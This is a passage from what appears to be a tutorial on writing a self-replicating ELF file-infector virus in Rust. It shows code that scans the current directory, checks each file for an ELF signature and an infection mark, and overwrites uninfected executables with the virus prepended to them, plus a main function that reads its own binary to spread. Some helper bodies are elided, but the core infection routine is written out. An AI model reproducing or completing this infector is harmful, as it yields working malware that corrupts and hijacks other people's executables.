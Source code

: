 Now, we must decide how to find suitible hosts. The goal is to infect files that have an ELF signature, but do not have an infection mark. The infection mark is present in the virus binary (but not in the source code!) and so the virus will not reinfect itself.

```rust
const ELF_MAGIC: &[u8; 4] = &[0x7f, 0x45, 0x4c, 0x46];
const INFECTION_MARK: &[u8; 8] = b"tmp.out\xff";

/// Checks whether `bytes` starts with an ELF signature
fn is_elf(bytes: &[u8]) -> bool {
    // ...
}

/// Checks whether `bytes` contains the infection mark
fn is_infected(bytes: &[u8]) -> bool {
    // ...
}

/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {    
    // ...

    for entry in entries {
        // ...

        // Skip if this is not an ELF file
        if !is_elf(&contents) { continue; }

        // Skip if this file is already infected
        if is_infected(&contents) { continue; }

        // Infect this file
        let mut new_file = vec![];
        new_file.extend_from_slice(&virus);
        new_file.extend_from_slice(&contents);
        let _ = fs::write(entry.path(), &new_file); // Ignore `Err`s
    }
}
```

The first time the virus is run, it's okay to prepend the entire virus binary onto the host, but from that point forward, `virus` will include not just the virus code, but its host's code as well. In Rust, it is tricky to determine exactly what portion of the code should be copied. This sample relies on a `VIRUS_SIZE` constant that needs to be adjusted everytime the binary is recompiled (more on this later). `main` is updated to only pass the virus code to `spread_and_infect`.

```rust
const VIRUS_SIZE: usize = 0; // Placeholder value

fn main() {
    let my_name = &env::args().collect::<Vec<String>>()[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &my_code[..VIRUS_SIZE]);
    }
}
```
